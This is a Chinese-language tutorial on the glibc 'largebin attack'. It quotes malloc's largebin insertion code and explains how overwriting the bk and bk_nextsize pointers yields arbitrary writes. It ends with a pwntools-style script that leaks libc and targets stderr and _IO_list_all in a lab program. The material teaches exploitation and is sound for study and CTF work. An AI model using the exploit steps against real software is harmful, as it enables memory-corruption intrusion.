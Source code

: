 # largebin attack

## 1.基本原理

largebin 用来收容超过 0x400 大小以上的 chunk(64 位)，其是一个双向链表，一共可以容纳 63 个 chunk，对于链表对应存储 chunk 的大小没有明确规定，而是规定了一个范围，根据具体的数值可以分为 6 组:

| 组   | 数量 | 差值            |
| ---- | ---- | --------------- |
| 1    | 32   | 64(0x40)        |
| 2    | 16   | 512(0x200)      |
| 3    | 8    | 4096(0x1000)    |
| 4    | 4    | 32768(0x8000)   |
| 5    | 2    | 262144(0x40000) |
| 6    | 1    | 无限制          |

下面代码片段是在 _int_malloc 中 unsortedbin 循环取出 chunk 的代码：victim 为从 unsortedbin 中取出的 chunk

```c
if (in_smallbin_range (size))
{
  victim_index = smallbin_index (size);
  bck = bin_at (av, victim_index);
  fwd = bck->fd;
}
else
{
  victim_index = largebin_index (size);
  bck = bin_at (av, victim_index);
  fwd = bck->fd;

  /* maintain large bins in sorted order */
  if (fwd != bck) // 当第一个不等于后一个（即当前的 largebin 不空）
    {
      /* Or with inuse bit to speed comparisons */
      size |= PREV_INUSE;
      /* if smaller than smallest, bypass loop below */
      assert (chunk_main_arena (bck->bk));
      if ((unsigned long) (size)
  < (unsigned long) chunksize_nomask (bck->bk)) // bck-> bk 储存的是当前索引的 largebin 中大小最小的 chunk，如果我们要插入的 chunk 比这个大小还小，那么就要插入 largebin 的尾部
        {
          fwd = bck;
          bck = bck->bk;

          victim->fd_nextsize = fwd->fd;
          victim->bk_nextsize = fwd->fd->bk_nextsize;
          fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
        }
      else // 如果不是插入尾部，那么我们要找到这个 chunk 应该插入的位置
        {
          assert (chunk_main_arena (fwd));
          while ((unsigned long) size < chunksize_nomask (fwd))
            {
              fwd = fwd->fd_nextsize;
  assert (chunk_main_arena (fwd));
            }

          if ((unsigned long) size
  == (unsigned long) chunksize_nomask (fwd)) // 如果找到了相等的
            /* Always insert in the second position.  */
            fwd = fwd->fd;
          else //如果大小不一样，构造双向链表
            {
              victim->fd_nextsize = fwd;
              victim->bk_nextsize = fwd->bk_nextsize;
              fwd->bk_nextsize = victim;
              victim->bk_nextsize->fd_nextsize = victim;
            }
          bck = fwd->bk;
        }
    }
  else
    victim->fd_nextsize = victim->bk_nextsize = victim;
}

mark_bin (av, victim_index);
victim->bk = bck;
victim->fd = fwd;
fwd->bk = victim;
bck->fd = victim;
```

largebin attack 就是通过修改位于 largebin 的 chunk 的指针，然后让其它的 chunk 进入 largebin，借助链表操作在目标地址处写入一个堆的地址

largebin 可以利用的指针有 bk 和 bk_nextsize

glibc-2.30 之前，由于 chunk 链入 largebin 的过程中缺乏对 bk 和 bk_nextsize 指针的检查，因此可以通过修改 bk 和 bk_nextsize 指针进行两处任意地址写

glibc-2.30 及以上版本中，只能利用 largebin attack 来写一个地址

glibc-2.30 开始如果加入的 chunk 不是最小的则在插入链表时会对 bk 指针进行检查

```c
if (bck->fd != fwd)
	malloc_printerr ("malloc(): largebin double linked list corrupted (bk)");
```

重点关注上面的大小不一样的这部分代码：

```c
else
{
    victim->fd_nextsize = fwd;
    victim->bk_nextsize = fwd->bk_nextsize;
    fwd->bk_nextsize = victim;
    victim->bk_nextsize->fd_nextsize = victim;
}

bck = fwd->bk;

victim->bk = bck;
victim->fd = fwd;
fwd->bk = victim;
bck->fd = victim;
```

如果劫持一个 largebin 中一个在同等大小 chunk 中 bk 方向最靠前的 chunk 的 bk 和 bk_nextsize 然后 **释放一个比该 chunk 稍大一些的 chunk** 就可以实现下图所示效果：

* 主要是 victim 的 fd 和 fd_nextsize 都指向最靠前的 chunk，bk 和 bk_nextsize 分别指向 fakechunk1 和 fakechunk2，同时 fakechunk1 的 fd 和 fakechunk2 的 fd_nextsize 都指向释放的 chunk，也就是存了同一个堆地址

![未命名绘图.drawio](./assets/5.largebin_attack/未命名绘图.drawio.png)



## 2.利用思路

漏洞程序参考漏洞程序参考 unsortedbin leak 的测试程序

```c
add_chunk(0, 0x400)
add_chunk(1, 0x10)
add_chunk(2, 0x410)
add_chunk(3, 0x10)

# leak libc
delete_chunk(0)
add_chunk(0, 0x400)
show_chunk(0)
main_arena_addr = u64Leakbase(0)
li("main_arena_addr", main_arena_addr)
libc_addr = main_arena_addr - 0x3c4b78
libc.address = libc_addr
li("libc_addr", libc_addr)
li("stderr", libc.sym["stderr"])
li("_IO_list_all", libc.sym["_IO_list_all"])

delete_chunk(0)
add_chunk(4, 0x500)

payload = b""
payload += p64(0)
payload += p64(libc.sym["stderr"] - 0x10)
payload += p64(0)
payload += p64(libc.sym["_IO_list_all"] - 0x20)
edit_chunk(0, payload)

delete_chunk(2)
add_chunk(0, 0x500)

it()
```

执行完后调试可以看到 pwndbg 的插件已经崩溃无法识别了，bk 指向的是最后释放的 chunk，其 bk 和 bk_nextsize 分别指向 fakechunk，而两个 fakechunk 中又保存了堆地址

![image-20241230002021392](./assets/5.largebin_attack/image-20241230002021392.png)

![image-20241230001954735](./assets/5.largebin_attack/image-20241230001954735.png)

调试分析 bck 到底是什么：

![image-20241230085532891](./assets/5.largebin_attack/image-20241230085532891.png)
